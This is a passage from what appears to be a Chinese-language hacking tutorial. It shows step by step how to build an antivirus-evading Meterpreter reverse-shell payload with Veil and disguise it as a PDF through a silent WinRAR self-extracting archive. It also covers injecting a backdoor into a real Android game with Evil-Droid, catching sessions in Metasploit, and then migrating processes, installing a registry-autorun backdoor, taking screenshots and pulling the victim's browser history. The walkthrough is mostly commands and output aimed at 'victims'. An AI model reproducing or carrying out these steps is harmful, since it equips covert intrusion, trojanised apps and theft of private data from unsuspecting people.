[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework

Main Menu

2 tools loaded
```

##### 可用工具：

- 1) Evasion (规避)
- 2) Ordnance (军械)

##### 可用命令：

| 命令 | 描述 |
|---------|-------------|
| exit | 完全退出 Veil |
| info | 查看特定工具的信息 |
| list | 列出可用工具 |
| options | 显示 Veil 配置 |
| update | 更新 Veil |
| use | 使用特定工具 |

```
Veil>:
```

在执行此“Veil.py 文件”后，终端会弹出一个界面。这将为您提供通过使用某些工具来生成不可检测 Payload 的空间。第一个是 Evasion，第二个是 Ordnance。在本书中，我们将使用前者。

Evasion 位于第一个选项。这意味着您需要在终端底部输入“use 1”。

在那里，您还将看到所有可供您使用和利用的命令。为了创建 Payload，我们首先要列出所有可用的 Payload。

##### 可用命令：

| 命令 | 描述 |
|---------|-------------|
| back | 返回 Veil 主菜单 |
| checkvt | 根据生成的哈希值在 VirusTotal.com 上进行检查 |
| clean | 移除生成的伪像 |
| exit | 完全退出 Veil |
| info | 查看特定 Payload 的信息 |
| list | 列出可用 Payload |
| use | 使用特定 Payload |

```
Veil/Evasion>
```

4. 输入“list”以列出所有可用的 Payload。

```
Veil/Evasion>: list
```

##### Veil-Evasion

[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework

[*] 可用 Payload：

- 1) autoit/shellcode_inject/flat.py
- 2) auxiliary/coldwar_wrapper.py
- 3) auxiliary/macro_converter.py
- 4) auxiliary/pyinstaller_wrapper.py
- 5) c/meterpreter/rev_http.py
- 6) c/meterpreter/rev_http_service.py
- 7) c/meterpreter/rev_tcp.py
- 8) c/meterpreter/rev_tcp_service.py
- 9) cs/meterpreter/rev_http.py
- 10) cs/meterpreter/rev_https.py
- 11) cs/meterpreter/rev_tcp.py
- 12) cs/shellcode_inject/base64.py
- 13) cs/shellcode_inject/virtual.py
- 14) go/meterpreter/rev_http.py
- 15) go/meterpreter/rev_https.py
- 16) go/meterpreter/rev_tcp.py
- 17) go/shellcode_inject/virtual.py
- 18) lua/shellcode_inject/flat.py
- 19) perl/shellcode_inject/flat.py
- 20) powershell/meterpreter/rev_http.py
- 21) powershell/meterpreter/rev_https.py
- 22) powershell/meterpreter/rev_tcp.py
- 23) powershell/shellcode_inject/psexec_virtual.py
- 24) powershell/shellcode_inject/virtual.py
- 25) python/meterpreter/bind_tcp.py
- 26) python/meterpreter/rev_http.py
- 27) python/meterpreter/rev_https.py
- 28) python/meterpreter/rev_tcp.py
- 29) python/shellcode_inject/aes_encrypt.py
- 30) python/shellcode_inject/arc_encrypt.py
- 31) python/shellcode_inject/base64_substitution.py
- 32) python/shellcode_inject/des_encrypt.py
- 33) python/shellcode_inject/flat.py
- 34) python/shellcode_inject/letter_substitution.py
- 35) python/shellcode_inject/pidinject.py
- 36) python/shellcode_inject/stallion.py
- 37) ruby/meterpreter/rev_http.py
- 38) ruby/meterpreter/rev_https.py
- 39) ruby/meterpreter/rev_tcp.py
- 40) ruby/shellcode_inject/base64.py
- 41) ruby/shellcode_inject/flat.py

输入“list”即可生成可用 Payload 列表。共有 41 种不同的 Payload 可供您选择。它们都遵循某些精确的命名模式。例如，“ruby/meterpreter/rev_https.py”分为三个部分。

第一部分“ruby”是编写该 Payload 的程序名称。第二部分指 meterpreter，表示该 Payload 的类型。第三部分是 rev_https.py，表示协议名称，在执行后会生成反向连接。

在本例中，我们将使用 powershell/meterpreter/rev_https.py payload，因为它是一种简单的编程语言。此外，它还允许初学者通过修改代码中的几行来使其不可被检测。

9. 鉴于我们使用的是排名第 21 位的 powershell/meterpreter/rev_https.py，我们输入“use 21”。

```
Veil/Evasion>: use 21
================================================================================
Veil-Evasion
================================================================================
==================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
==================================================

Payload Information:

Name:                    Pure PowerShell Reverse HTTPS Stager
Language:    powershell
Rating:                    Excellent
Description:    pure windows/meterpreter/reverse_https stager, no
                shellcode

Payload: powershell/meterpreter/rev_https selected

Required Options:
```

| 名称 | 值 | 描述 |
|------|-------|-------------|
| BADMACS | FALSE | 检查已知的坏 MAC 地址 |
| DOMAIN | X | 可选：所需的内部域名 |
| HOSTNAME | X | 可选：所需的系统主机名 |
| LHOST |  | Metasploit 处理程序的 IP |
| LPORT | 8443 | Metasploit 处理程序的端口 |
| LURI | / | 预置在监听器前的 HTTP 路径。例如：http://attacker:port/[LURI] |
| MINBROWSERS | FALSE | 至少需要 2 个浏览器 |
| MINPROCESSES | X | 运行的进程最小数量 |
| MINRAM | FALSE | 要求至少 3 GB 内存 |
| PROCESSORS | X | 可选：最小处理器数量 |
| PROXY | N | 使用系统代理设置 |
| SLEEP | X | 可选：休眠“Y”秒，检查是否加速 |
| STAGERURILENGTH | 4 | Stager 的 URI 长度（至少 4 个字符） |
| USERNAME | X | 可选：所需的账户名 |
| USERPROMPT | FALSE | Payload 启动前弹出窗口 |
| USER_AGENT | Mozilla/4.0 (compatible; MSIE 6.1; Windows NT) | 随初始 Stager 请求发送的 User-Agent 标头 |
| UTCCHECK | FALSE | 检查系统是否未使用 UTC 时区 |
| VIRTUALPROC | FALSE | 检查已知的虚拟机进程 |

##### 可用命令：

- **back** 返回 Veil-Evasion
- **exit** 完全退出 Veil
- **generate** 生成 Payload
- **options** 显示 shellcode 选项
- **set** 设置 shellcode 选项

```
[powershell/meterpreter/rev_https>>]:
```

输入“use 21”后，我们将获得许多可用于改变 Payload 的选项。与此同时，我们还将尝试使其尽可能唯一。Payload 越唯一，就越有可能绕过许多反病毒软件。

我们将在随后的反病毒规避章节中更详细地介绍反病毒绕过方法。尽管如此，这是您绕过部分反病毒程序的首选步骤。

让我们探索几个能帮助我们将 Payload 打造得完全不可检测的选项：

- SLEEP - 此选项使 Payload 在指定的时间内休眠一小段时间。之后它会自动连接系统。
- PROCESSORS - 虽然不改变工作方式，但仍有助于使 Payload 具有唯一性。

在此之后，为了进行多重处理，需要指定 LPORT 和 LHOST。这可能还涉及使用 PROCESSORS 和 SLEEP 选项来增强 Payload 的唯一性。

##### 10. 输入 “set LHOST (您的 IP 地址)”

```
[powershell/meterpreter/rev_https>>]: set LHOST 10.0.2.15
```

如果在局域网（LAN）中进行攻击，您必须使用本地 IP 地址。另一方面，如果您在广域网（WAN）中进行攻击，则可能需要利用公网 IP 地址。为了方便起见，我们在局域网中使用，因此我们使用本地 IP 地址。

##### 11. 输入 “set LPORT (您的端口号)”

```
[powershell/meterpreter/rev_https>>]: set LPORT 8080
```

输入“set LPORT (您的端口号)”，随后指定端口号。同样地，我们正在使用局域网，这意味着我们必须指定用于转发指令的端口。对于此任务，强烈建议使用 8080 端口，因为它在目标站点不容易引起怀疑。

##### 12. 输入 “set SLEEP (以秒为单位的时间)”

```
[powershell/meterpreter/rev_https>>]: set SLEEP 30
```

输入“set SLEEP (以秒为单位的时间)”，然后将时间指定为 30 秒。这样操作将提示 Payload 在 30 秒时间流逝后与您建立连接。

##### 13. 输入 “set PROCESSORS 1”

```
[powershell/meterpreter/rev_https>>]: set PROCESSORS 1
```

指定“set PROCESSORS 1”。在此阶段，您应该为 Payload 指定处理器。虽然这不会带来任何更改...

即便如此，它仍将有助于绕过几个杀毒程序。使用选项可以确认一切是否正常。

##### 14. 输入 "options"

```
[powershell/meterpreter/rev_https>>]: options

Payload: powershell/meterpreter/rev_https selected
```

**必需选项（Required Options）：**

| 名称 | 值 | 描述 |
| ---- | ----- | ----------- |
| BADMACS | FALSE | 检查已知的坏 MAC 地址 |
| DOMAIN | X | 可选：所需的内部域名 |
| HOSTNAME | X | 可选：所需的系统主机名 |
| LHOST | 10.0.2.15 | Metasploit 处理程序的 IP |
| LPORT | 8080 | Metasploit 处理程序的端口 |
| LURI | / | 预置在监听器前的 HTTP 路径。例如：http://attacker:port/[LURI] |
| MINBROWSERS | FALSE | 至少 2 个浏览器 |
| MINPROCESSES | X | 运行进程的最小数量 |
| MINRAM | FALSE | 要求至少 3 GB 内存 |
| PROCESSORS | 1 | 可选：处理器最小数量 |
| PROXY | N | 使用系统代理设置 |
| SLEEP | 30 | 可选：休眠 "Y" 秒，检查是否被加速 |
| STAGERURILENGTH | 4 | Stager 的 URI 长度（至少 4 个字符）。 |
| USERNAME | X | 可选：所需的用户帐户 |
| USERPROMPT | FALSE | Payload 运行前弹出窗口 |
| USER_AGENT | Mozilla/4.0 (compatible; MSIE 6.1; Windows NT) | 随初始 stager 请求发送的 User-Agent 请求头 |
| UTCCHECK | FALSE | 检查系统是否未使用 UTC 时区 |
| VIRTUALPROC | FALSE | 检查已知的虚拟机进程 |

**可用命令：**
- **back**: 返回到 Veil-Evasion
- **exit**: 完全退出 Veil

| 命令 | 描述 |
|---------|-------------|
| generate | 生成 Payload |
| options | 显示 shellcode 的选项 |
| set | 设置 shellcode 选项 |
| `[powershell/meterpreter/rev_https>>]:` | |

输入术语 'options'。此提示将更新 LPORT 和 LHOST。随后，它将生成 Payload。

##### 15. 输入 generate 以生成 Payload

```
[powershell/meterpreter/rev_https>>]: generate

========================================================================
Veil-Evasion
========================================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
========================================================================

[> ] Please enter the base name for output files (default is payload):
```

如果未指定名称，它将采用默认的 Payload 名称。在这种情况下，我们保持默认名称不变。该文件显示了 Payload 的所有详细信息以及该文件存储的相关路径。

```
[> ] Please enter the base name for output files (default is payload):

========================================================================
Veil-Evasion
========================================================================
[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
========================================================================

[*] Language: powershell
[*] Payload Module: powershell/meterpreter/rev_https
[*] PowerShell doesn't compile, so you just get text :)
[*] Source code written to: /var/lib/veil/output/source/payload.bat
[*] Metasploit Resource file written to: /var/lib/veil/output/handlers/payload.rc

Hit enter to continue...
```

此时，它显示了 Payload 的所有详细信息以及存储 Payload 的路径。

检查 Payload 可以揭示有多少杀毒软件可能会检测到它。目前的格式是 .bat。我们现在需要将其更改为 .exe 变体，因为这才是进行杀毒扫描的对象。我们只需简单地将 .bat 扩展名重命名为 .exe 即可完成此更改。


提供杀毒扫描服务的网站很多。然而，大多数网站会将其扫描数据出售给杀毒软件公司。我们仅推荐使用那些不出售数据的网站，其中最主要的是 antiscan.me 和 nodistribute.com。


这两个网站可能能绕过 26 个杀毒软件中的 9 个。虽然效果不算极佳，但我们还没有进行任何优化，这已经是一个很好的开始了。在接下来的章节中，我们将把 Payload 与图像绑定。

##### 将 Payload 绑定到图像

如果我们决定在不将其与 apk 或图像绑定的情况下将 Payload 发送给目标，最终结果可能会显得可疑，从而降低安装 Payload 的可能性。因此，我们将选择使用 WinRAR 将后门转换为 .pdf 或图像。


从这张插图中可以清楚地看到，桌面上共有三个文件。它们是 .pdf 文件、pdf 图标和创建的 Payload。通过使用 WinRAR 将这些文件组合在一起，即可生成 .pdf 文件。

- 1. 选择所有相关文件，右键点击，然后将它们添加到压缩包中。


- 2. 为文件指定名称，勾选 “创建 SFX 压缩包” (SFX archive) 并选择最合适的压缩方法选项卡。


- 3. 进入 “高级” (advanced) 选项卡并点击 “SFX 选项” (SFX option)。


- 4. 在 SFX 选项中，进入 “安装” (setup) 选项卡并确定您想要执行的序列文件。


- 5. 进入 “模式” (modes) 选项卡并点击 “全部隐藏（静默模式）” (Hide all under silent mode)。


进入 “自定义 SFX 标志” (Customize SFX logo) 下的 “图标和文本” (Icon and Text) 选项卡，并选择您感兴趣的 .ico 文件。如果需要，您可以使用在线转换器将任何图像或图标转换为 .ico 格式。


- 6. 点击 “确定” (OK) 并等待转换过程完成。


真实的 pdf 和伪造的 pdf 看起来完全一样。尽管如此，它们在打开时的运行效果也是相同的。

#### 使用 Evil Droid 进行 Android 攻击

您有多种方式生成 Payload 并将其植入真实应用程序中，包括：

- 1. 手动方式
- 2. 自动方式

手动方式 – 涉及使用 msfvenom 并通过逆向工程将其植入真实的 apk 中。虽然有效，但这种方法往往耗时较长且成功率较低。

自动方式 – 使用免费工具自动生成 Payload 并将其植入真实的 apk 中。这种方法速度更快，成功率也更高。

现在让我们使用 evil droid 工具创建并将 Payload 植入真实的 apk 中。以下步骤将帮助我们实现这一目标：

- 1. 访问 duckduckgo.com 并搜索 “Evil droid GitHub”。点击打开第一个链接。


- 2. 复制下载链接并打开终端。


- 3. 进入您想要保存文件的目录。对我来说，我更倾向于使用桌面目录。

```
anon@kali:~$ cd Desktop
anon@kali:~/Desktop$
```

- 4. 输入 `git clone (url)`。

```
anon@kali:~/Desktop$ git clone https://github.com/M4sc3r4n0/Evil-Droid.git
Cloning into 'Evil-Droid'...
remote: Enumerating objects: 68, done.
remote: Total 68 (delta 0), reused 0 (delta 0), pack-reused 68
Receiving objects: 100% (68/68), 6.70 MiB | 5.14 MiB/s, done.
Resolving deltas: 100% (19/19), done.
anon@kali:~/Desktop$
```

- 5. 输入 “cd Evil-Droid” 以更改 evil droid 的当前存储目录。

```
anon@kali:~/Desktop$ cd Evil-Droid/
anon@kali:~/Desktop/Evil-Droid$
```

输入 “ls” 可以让我们预览 evil droid 中可用的文件和目录。

```
anon@kali:~/Desktop/Evil-Droid$ ls
changelog  evil-droid icons  README.md  tools
```


由前文可见，evil droid 目前不是绿色的，这意味着它不是一个可执行文件。因此，我们需要将其格式更改为可执行文件。

- 6. 输入 "chmod +x evil-droid"。

```
anon@kali:~/Desktop/Evil-Droid$ chmod +x evil-droid
anon@kali:~/Desktop/Evil-Droid$ ls
changelog  evil-droid  icons  README.md  tools
anon@kali:~/Desktop/Evil-Droid$
```

如图所示，evil droid 现在变成了绿色。这意味着它是可执行的，因此可以运行。你还可以通过输入 "sudo su" 来更改当前用户。

- 7. 输入 "./evil-droid" 来运行 evil-droid。

evil droid 严重依赖第三方软件。运行该程序时，它会首先安装所有依赖项，这为你争取了更多时间。

运行此 evil droid 后，会弹出一个提供五个选项的界面。这允许你创建一个用于注入到 apk 中的后门。为了方便后续利用，提供了两个类似的选项。它们分别是“旧版”和“新版”。旧方法要求用户授予所有权限，而新方法则不需要。因此，新选项更好。

- 8. 输入 "3" 并按回车键

```
[?] Select>: 3
```

此时，系统将要求你提供 IP 地址。如果你是在局域网内进行操作，则必须输入局域网 IP。

- 9. 输入你的 IP 地址。

系统会要求你指定一个特定端口。在我的案例中，我使用 8080，因为该端口被 Web 服务器和 Web 应用程序使用。基于这两个原因，它较不容易引起怀疑。如果在局域网内进行攻击，你可以使用任何端口号，否则你可能需要指定你用于转发的端口。

- 10. 输入端口号。

之后，系统会要求你为你的 Payload 命名。我将其命名为 'Backdoor'，但你可以根据喜好随意命名。

- 11. 为你的 Payload 命名。

到达这一步后，系统将要求你指定一个与你在真实 apk 中注入的完全相同的 Payload。我们使用 Metasploit 与 Payload 共享信息。这意味着我们使用 `android/meterpreter/reverse_https`。

- 12. 选择一个 payload。

按照以下步骤，选择你将附加到真实 apk 的首选 Payload。这就是你注入 Payload 的地方。我将其注入到一个游戏应用中。

- 13. 选择真实的 apk 并点击 “OK”。

选定真实 apk 后，点击 "OK"。这可能需要一点时间和耐心。如果执行失败，你可能需要验证签名工件（signed artifacts），然后按照规定的指南解决问题。

## 解决签名工件验证失败（Failed to Verify Signed Artifacts Fix）

有时你可能会遇到 "Failed to verify signed artifacts" 错误，这主要是由于 evil droid 较长时间未更新导致的。这可能需要进行少量修改才能使其正常工作。

- 1. 打开 Google 搜索引擎，在搜索栏输入 "apktool.jar"。打开第一个弹出的链接并下载最新版本的 apktool。

我将其下载到电脑的下载目录中。现在进入 `evil droid/tools` 目录并删除旧版本的 apktool。

```
anon@kali:~/Desktop/Evil-Droid/tools$ rm apktool.jar
anon@kali:~/Desktop/Evil-Droid/tools$
```

删除旧版本后，你需要将最新版本的 apktool 复制并粘贴到 `evil-droid/tools` 目录下。

```
anon@kali:~/Downloads$ mv apktool_2.4.1.jar /home/anon/Desktop/Evil-Droid/tools
anon@kali:~/Downloads$
```

再次进入 `Evil-Droid/tools/` 目录。在这里，你需要修改 `doc.txt` 文件。为此，输入 “nano doc.txt”。在进入 `nano doc.txt` 文件之前，请确保你已以 root 用户登录。

此时，你只需要将 apktool 的版本号从 2.2.0 修改为 2.4.1，然后保存该文件。

- 1. 打开终端并将当前用户切换为 root。

```
anon@kali:~$ sudo su
[sudo] password for anon:
root@kali:/home/anon#
```

输入命令 “sudo apt-get install openjdk-11-jdk-headless” 并按下 “回车” 键。

```bash
root@kali:/home/anon# sudo apt-get install openjdk-11-jdk-headless
Reading package lists... Done
Building dependency tree
Reading state information... Done
openjdk-11-jdk-headless is already the newest version (11.0.9.1+1-1).
The following packages were automatically installed and are no longer required:
  bluez-firmware firmware-atheros firmware-brcm80211 firmware-intel-sound
  firmware-iwlwififirmware-libertas firmware-realtek firmware-ticonnectivity
  firmware-zd1211 libindicator3-7 libjsoncpp1 libmpdec2 librotofub22
  libsrt1-gnutls libx264-159 openjdk-8-jre python3-chameleon
  python3-flask-restless python3-mimparse python3-mimerender python3-waitress
  python3-webtest python3-zope.component python3-zope.event
  python3-zope.hookable snmp testdisk tftp
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 178 not upgraded.
root@kali:/home/anon#
```

这将会在你的个人电脑上安装 OpenJDK 11。这需要一些时间，请耐心等待。

现在让我们尝试第二次使用 evil droid 注入 “Backdoor”。在选择原始 apk 后，稍等片刻，随后 “Backdoor” 将自动注入到真实 apk 中。

## 监听传入连接（Listening Incoming Connection）

在将 “Backdoor” 发送给受害者之前，你应该使其无法被杀毒软件检测到。因此，如果你希望能接收到传入连接，可能需要设置 `msfconsole`。

关于此点，我们将在接下来的课程中介绍绕过杀毒软件的各种方法。现在，让我们熟悉接收 Windows 和 Android 设备传入连接所需的步骤。

请遵循以下步骤：

- 1. 打开终端并输入 “msfconsole”。

```
root@kali:/home/anon# msfconsole
Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018  es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)

Stack: 909090909909090909909090909090
       909090909909090909990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       .....................................
       cccccccccccccccccccccccccccccccc
       cccccccccccccccccccccccccccccccc
       cccccccc.....................
       cccccccccccccccccccccccccccccccc
       cccccccccccccccccccccccccccccccc
       ...................ccccccccc
       cccccccccccccccccccccccccccccccc
       cccccccccccccccccccccccccccccccc
       .....................
       ffffffffffffffffffffffffffff
       ffffffff.....................
       ffffffffffffffffffffffffffff
       ffffffff.....................
       ffffffff.....................
       ffffffff.....................
       ffffffff.....................

Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing
```

```
=[ metasploit v6.0.17-dev
+ -- --=[ 2076 exploits - 1124 auxiliary - 352 post
+ -- --=[ 596 payloads - 45 encoders - 10 nops
+ -- --=[ 7 evasion

Metasploit tip: Save the current environment with the save command, future console restarts will use
this environment again

msf6 >
```

按下 “回车” 后，终端将弹出一个界面。这要求你指定要执行的具体任务。由于我们要接收传入连接并与 Payload 通信，我们对 `Lport` 和 `Lhost` 输入以下命令。

```
use exploit/multi/handler
```

```
set LHOST (Your device ip address)
```

在本教程中，我使用 ngrok，因此我的 IP 将是 `0.0.0.0`。

```
set LPORT (Port number)
```

默认情况下，msfvenom 配置的是 `generic/shell_reverse_tcp` payload。现在我们需要将其更改为 `windows/meterpreter/reverse_tcp`。

```
set payload /windows/meterpreter/reverse_tcp
```

如果你为 Android 生成了 Payload，只需将 Windows 更改为 Android 即可。你可以使用 "show" 选项查看更改情况。

```
msf6 exploit(multi/handler) > show options
```

模块选项 (exploit/multi/handler):

| 名称 | 当前设置 | 必需 | 描述 |
| ---- | --------------- | -------- | ------------- |

Payload 选项 (windows/meterpreter/reverse_tcp):

| 名称 | 当前设置 | 是否必填 | 描述 |
| --- | --- | --- | --- |
| EXITFUNC | process | 是 | 退出技术 (接受值: ", seh, thread, process, none) |
| LHOST | 0.0.0.0 | 是 | 监听地址 (可指定一个接口) |
| LPORT | 4433 | 是 | 监听端口 |

Exploit 目标：

| Id | 名称 |
| --- | --- |
| 0 | 通配符目标 (Wildcard Target) |

```
msf6 exploit(multi/handler) >
```

完成后，输入 "Exploit" 开始接收传入的消息。

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4433
```

在将应用程序安装到计算机后，你将立即获得 meterpreter 会话。

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4433
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4433 -> 127.0.0.1:32974) at 2020-11-28 09:54:47 -0500
```

```
meterpreter > sysinfo
Computer    : EXCELANCE
OS          : Windows 10 (10.0 Build 14393).
Architecture : x86
System Language : en_US
Domain      : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter >
```

此会话使你能够随心所欲地执行任何操作。本章的下一节将进一步阐述后渗透攻击（post-exploitation）以及在访问系统后可以期待什么。

## 后渗透攻击 (Post Exploitation)


我们在上一章学习了如何使用 msfvenom 攻击系统。在本章中，我们将研究后渗透攻击。这假设你已经访问了受害者的系统。

## 建立连接持久化

既然你已经访问了系统，你必须将所有的 Payload 迁移到系统服务中，以确保你的会话不会中断。

- 1. 输入 "ps" 以列出受害者设备中当前运行的所有服务。

```
meterpreter > ps

Process List
===========

PID  PPID  Name              Arch  Session  User            Path
---  ----  ----              ----  -------  ----            ----
0    0     [System Process]
4    0     System
356  4     smss.exe
428  900   SearchUI.exe           x86   2        EXCELANCE\Vidya  C:\Windows\SystemApps\
492  496   conhost.exe
496  1984  wlanext.exe
520  796   SearchIndexer.exe
528  900   RuntimeBroker.exe       x86   2        EXCELANCE\Vidya  C:\Windows\System32\R
584  524   csrss.exe
652  524   wininit.exe
796  652   services.exe
804  652   lsass.exe
```

| PID | PPID | 名称 | 架构 | 会话 | 用户 | 路径 |
| --- | --- | --- | --- | --- | --- | --- |
| 888 | 3228 | igfxTray.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\System32\igfxT |

现在你可以看到目标系统上运行的所有服务，我们需要识别出 `explorer.exe`。它是 Windows 的图形用户界面。将后门服务迁移到该连接中，可以使其具有相当强的持久性。

继续查找并记录其 PID。在我的案例中，PID 是 3160。在找到必要的 gadget 后，你需要输入 `migrate (explorer.exe 的 PID)`，随后系统将自动迁移服务。

| PID | PPID | 名称 | 架构 | 会话 | 用户 | 路径 |
| --- | --- | --- | --- | --- | --- | --- |
| 3160 | 1860 | explorer.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\explore |
| 3188 | 796 | svchost.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\System |
| 3228 | 1576 | taskhostw.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\Syste |
| 3576 | 3228 | igfxEM.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\System |
| 3684 | 796 | svchost.exe | x86 | 0 | NT AUTHORITY\LOCAL | C:\Windows\System32\svchost.exe |
| 3704 | 900 | WmiPrvSE.exe | x86 | 0 | NT AUTHORITY\NETWORK | C:\Windows\System32\wbem\WmiPrvSE.exe |
| 5556 | 900 | ApplicationFrameHost.exe | x86 | 2 | EXCELANCE\Vidya | C:\Windows\S |
| 5948 | 2160 | Dism.exe | x86 | 0 | NT AUTHORITY\SYSTEM | C:\Windows\System32\Dism.exe |
| 6016 | 900 | WmiPrvSE.exe | x86 | 0 | NT AUTHORITY\SYSTEM | C:\Windows\System32\wbem\WmiPrvSE.exe |

```
meterpreter > migrate 3160
[*] Migrating from 692 to 3160...
[*] Migration completed successfully.
meterpreter >
```

现在 meterpreter 连接变得非常持久，你很难轻易丢失连接。但如果系统关机了怎么办？接下来的章节将讨论如何在典型的目标系统上安装后门。

## 维持访问权限

为了解决这个问题，你必须在目标个人电脑中生成一个后门。不过，这不需要手动操作。Meterpreter 包含并使用一个可以大大简化此操作的模块。

- 1. 输入 “background” 将当前会话转入后台并运行脚本。

```
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) >
```

如我们所见，后台有两个会话。我可以使用其中任何一个在目标系统中创建后门。

- 1. 输入 `use “exploit/windows/local/persistence”`

```
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/persistence) >
```

- 2. 输入 `sessions “-i”`

```
msf6 exploit(windows/local/persistence) > sessions -i

Active sessions
===============

Id Name Type Information Connection
-- ---- ---- ------------ ----------
2 meterpreter x86/windows EXCELANCE\Vidya @ EXCELANCE 127.0.0.1:4433 -> 127.0.0.1:32978 (127.0.0.1)
```

现在你可以看到所有当前会话及其唯一标识符。我们现在需要设置稍后用于将后门上传到目标系统的会话。

- 3. 输入 `set session (会话编号)`。

```
msf6 exploit(windows/local/persistence) > set session 2
session => 2
msf6 exploit(windows/local/persistence) >
```

现在，我们需要指定 Lhost 和 Lport。

```
msf6 exploit(windows/local/persistence) > set Lhost 10.0.2.15
Lhost => 10.0.2.15
```

```
msf6 exploit(windows/local/persistence) > set Lport 4433
Lport => 4433
msf6 exploit(windows/local/persistence) >
```

现在，我们将输入 “exploit” 来执行该模块并完成工作。

```
msf6 exploit(windows/local/persistence) > exploit

[*] Running persistent module against EXCELANCE via session ID: 2
[+] Persistent VBS script written on EXCELANCE to
C:\Users\Vidya\AppData\Local\Temp\rnIgVevkk.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\HClXfxWyzACwB
[+] Installed autorun on EXCELANCE as
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\HClXfxWyzACwB
[*] Clean up Meterpreter RC file:
/root/.msf4/logs/persistence/EXCELANCE_20201128.4241/EXCELANCE_20201128.4241.rc

msf6 exploit(windows/local/persistence) >
```

此命令还将后门上传到系统。如果受害者关闭或重启个人电脑，Meterpreter 会话也将随之启动。我们现在要做的就是像之前那样安装 `msfconsole`，然后等待几秒钟即可重新获得连接。

如果你在上传后门后会话仍然完好，可以使用会话标识符再次与后门共享信息。

```
msf6 exploit(windows/local/persistence) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

现在我们已经确保了连接的安全。让我们看看在进入 Meterpreter 会话后能做多少事情。首先输入 “help” 列出你可能在目标系统上运行的所有命令。

```
meterpreter > help

Core Commands
==============

Command             Description
------             -----------
?                   Help menu
background          Backgrounds the current session
bg                  Alias for background
bgkill              Kills a background meterpreter script
bglist              Lists running background scripts
bgrun               Executes a meterpreter script as a background thread
channel             Displays information or control active channels
close               Closes a channel
disable_unicode_encoding    Disables encoding of unicode strings
enable_unicode_encoding     Enables encoding of unicode strings
exit                Terminate the meterpreter session
get_timeouts        Get the current session timeout values
guid                Get the session GUID
help                Help menu
info                Displays information about a Post module
irb                 Open an interactive Ruby shell on the current session
load                Load one or more meterpreter extensions
machine_id          Get the MSF ID of the machine attached to the session
migrate             Migrate the server to another process
pivot               Manage pivot listeners
pry                 Open the Pry debugger on the current session
quit                Terminate the meterpreter session
read                Reads data from a channel
resource            Run the commands stored in a file
run                 Executes a meterpreter script or Post module
```

从这里我们可以观察到，有一些命令以及它们的简短描述。由于我们无法尝试所有命令，我们可以尝试其中几个以获得整体概念。我尝试截取了受害者的屏幕截图。

```
meterpreter > screenshot
Screenshot saved to: /home/anon/Desktop/POrFOqyC.jpeg
meterpreter >
```


我现在只需要输入最终执行它的命令。希望现在这一切对你来说已经很清楚了，万一你遇到任何问题，请随时给我发送电子邮件。我会在 24 小时内给出及时答复。

## 提取浏览器历史记录

本节将教授我们如何获取目标系统的浏览器历史记录。这一洞察力极其有用，因为它能够提供有价值的见解。

Meterpreter 包含一个能够从目标个人电脑中获取保存的密码形式的模块。要使用它，请遵循以下步骤：

- 1. 输入 “background”。

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

- 2. 输入 “use post/windows/gather/forensics/browser_history” 然后按 “enter”。

```
msf6 exploit(multi/handler) > use post/windows/gather/forensics/browser_history
msf6 post(windows/gather/forensics/browser_history) >
```

这将加载随后从目标系统提取浏览器历史记录的模块。我们现在需要建立一个会话来运行这个提取模块。通过输入 "sessions -l" 来检查你的 id。

- 3. 输入 "set SESSION (session id)"。

```
msf6 post(windows/gather/forensics/browser_history) > set sessions -i 1
SESSION => 1
msf6 post(windows/gather/forensics/browser_history) >
```

设置会话后，输入 "run" 并按回车键以执行该模块。

```
msf6 post(windows/gather/forensics/browser_history) > run

[*] Gathering user profiles
[-] Error loading USER S-1-5-21-1629971540-2643221899-3162363-1000: Profile doesn't exist or cannot be accessed
[*] Checking for Chrome History artifacts...
[-] Chrome History directory not found for defaultuser0
[*] Checking for Chrome Archived History artifacts...
[-] Chrome Archived History directory not found for defaultuser0
[*] Checking for Skype artifacts...
[-] Skype directory not found for defaultuser0
[*] Checking for Firefox artifacts...
[-] Firefox directory not found for defaultuser0
[*] Checking for Chrome History artifacts...
[-] Chrome History directory not found for Vidya
[*] Checking for Chrome Archived History artifacts...
[-] Chrome Archived History directory not found for Vidya
[*] Checking for Skype artifacts...
[-] Skype directory not found for Vidya
[*] Checking for Firefox artifacts...
[+] Firefox directory found Vidya
[*] Downloading C:\Users\Vidya\AppData\Roaming\Mozilla\Firefox\Profiles\dmd6n6mt.default-release\places.sqlite
[+] Firefox artifact file saved to /root/.msf4/local/Vidya_Firefox_dmd6n6mt.default-release_places.sqlite
[*] Post module execution completed
